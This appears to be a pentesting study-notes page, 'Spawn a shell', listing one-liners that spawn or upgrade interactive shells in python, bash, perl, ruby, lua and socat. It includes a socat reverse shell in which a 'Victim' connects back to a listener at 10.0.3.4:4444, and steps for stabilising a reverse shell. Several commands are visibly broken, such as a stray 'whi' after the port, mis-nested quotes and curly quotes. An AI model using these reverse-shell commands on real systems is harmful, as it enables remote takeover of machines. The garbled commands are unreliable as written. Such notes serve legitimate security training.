 ```yaml
---
title: Spawn a shell
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting, terminal, shells
---
```


# Spawn a shell

Webshell is a script written in a language that is executed by a server. Web shell are not fully interactive. 

??? note "Resources for upgrading simple shells"
    - [https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html](https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html).
    - [Cheat sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
    - [Shell creation](https://rosettacode.org/wiki/Execute_a_system_command).
    - [About webshells](https://github.com/BlackArch/webshells).


Sidenote: Also, you can generate a webshell by using  msfvenom


## python

```bash
python -c 'import os; os.system("/bin/sh")'
```

```bash
 # using python for a pseudo terminal
python -c 'import pty; pty.spawn("/bin/bash")'
```


## bash

```bash
bash -i

# Using echo
echo 'os.system('/bin/bash')'
```


## ssh

```bash
/bin/sh -i
```


## perl

```bash
perl -e 'exec "/bin/sh";'

perl:  exec "/bin/sh";
```


## ruby

```bash
ruby:  exec "/bin/sh";
```


## lua

```bash
lua: os.execute(‘/bin/sh’)
```
  

## socat

```bash
# Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444whi

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
  

## stty options

```bash
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'

# Ctrl-Z
 

# In Kali
$ stty raw -echo
$ fg
```
  
```bash
# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```
